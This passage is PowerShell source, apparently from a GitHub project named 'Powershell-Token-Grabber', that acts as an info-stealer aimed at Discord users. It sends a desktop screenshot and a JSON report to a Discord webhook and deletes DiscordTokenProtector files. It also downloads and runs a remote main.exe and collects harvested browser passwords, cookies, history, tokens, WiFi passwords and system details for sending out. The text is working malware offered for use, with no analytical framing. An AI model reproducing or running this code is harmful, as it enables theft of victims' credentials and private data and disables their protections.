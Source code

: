         )
    }

    $payload = $embed_and_body | ConvertTo-Json -Depth 10
    Invoke-WebRequest -Uri $webhook -Method POST -Body $payload -ContentType "application/json" -UseBasicParsing | Out-Null
	
	# Screenshot Embed
	curl.exe -F "payload_json={\`"username\`": \`"KDOT\`", \`"content\`": \`":hamsa: **Screenshot**\`"}" -F "file=@\`"$env:localappdata\temp\desktop-screenshot.png\`"" $webhook | out-null

    Set-Location $env:LOCALAPPDATA\Temp

    $token_prot = Test-Path "$env:APPDATA\DiscordTokenProtector\DiscordTokenProtector.exe"
    if ($token_prot -eq $true) {
        Remove-Item "$env:APPDATA\DiscordTokenProtector\DiscordTokenProtector.exe" -Force
    }

    $secure_dat = Test-Path "$env:APPDATA\DiscordTokenProtector\secure.dat"
    if ($secure_dat -eq $true) {
        Remove-Item "$env:APPDATA\DiscordTokenProtector\secure.dat" -Force
    }

    $TEMP_KOT = Test-Path "$env:LOCALAPPDATA\Temp\KDOT"
    if ($TEMP_KOT -eq $false) {
        New-Item "$env:LOCALAPPDATA\Temp\KDOT" -Type Directory
    }
    
    $ProgressPreference = "SilentlyContinue";Invoke-WebRequest -Uri "https://github.com/KDot227/Powershell-Token-Grabber/releases/download/V4.1/main.exe" -OutFile "main.exe" -UseBasicParsing

    $proc = Start-Process $env:LOCALAPPDATA\Temp\main.exe -ArgumentList "$webhook" -NoNewWindow -PassThru
    $proc.WaitForExit()

    $extracted = "$env:LOCALAPPDATA\Temp"
    Move-Item -Path "$extracted\ip.txt" -Destination "$extracted\KDOT\ip.txt" -ErrorAction SilentlyContinue
    Move-Item -Path "$extracted\netstat.txt" -Destination "$extracted\KDOT\netstat.txt" -ErrorAction SilentlyContinue
    Move-Item -Path "$extracted\system_info.txt" -Destination "$extracted\KDOT\system_info.txt" -ErrorAction SilentlyContinue
    Move-Item -Path "$extracted\uuid.txt" -Destination "$extracted\KDOT\uuid.txt" -ErrorAction SilentlyContinue
    Move-Item -Path "$extracted\mac.txt" -Destination "$extracted\KDOT\mac.txt" -ErrorAction SilentlyContinue
    Move-Item -Path "$extracted\browser-cookies.txt" -Destination "$extracted\KDOT\browser-cookies.txt" -ErrorAction SilentlyContinue
    Move-Item -Path "$extracted\browser-history.txt" -Destination "$extracted\KDOT\browser-history.txt" -ErrorAction SilentlyContinue
    Move-Item -Path "$extracted\browser-passwords.txt" -Destination "$extracted\KDOT\browser-passwords.txt" -ErrorAction SilentlyContinue
    Move-Item -Path "$extracted\desktop-screenshot.png" -Destination "$extracted\KDOT\desktop-screenshot.png" -ErrorAction SilentlyContinue
    Move-Item -Path "$extracted\tokens.txt" -Destination "$extracted\KDOT\tokens.txt" -ErrorAction SilentlyContinue
    Move-Item -Path "$extracted\WIFIPasswords.txt" -Destination "$extracted\KDOT\WIFIPasswords.txt" -ErrorAction SilentlyContinue
    Move-Item -Path "$extracted\GPU.txt" -Destination "$extracted\KDOT\GPU.txt" -ErrorAction SilentlyContinue
    Move-Item -Path "$extracted\Installed-Applications.txt" -Destination "$extracted\KDOT\Installed-Applications.txt" -ErrorAction SilentlyContinue
    Move-Item -Path "$extracted\DiskInfo.txt" -Destination "$extracted\KDOT\DiskInfo.txt" -ErrorAction SilentlyContinue
    Move-Item -Path "$extracted\CPU.txt" -Destination "$extracted\KDOT\CPU.txt" -ErrorAction SilentlyContinue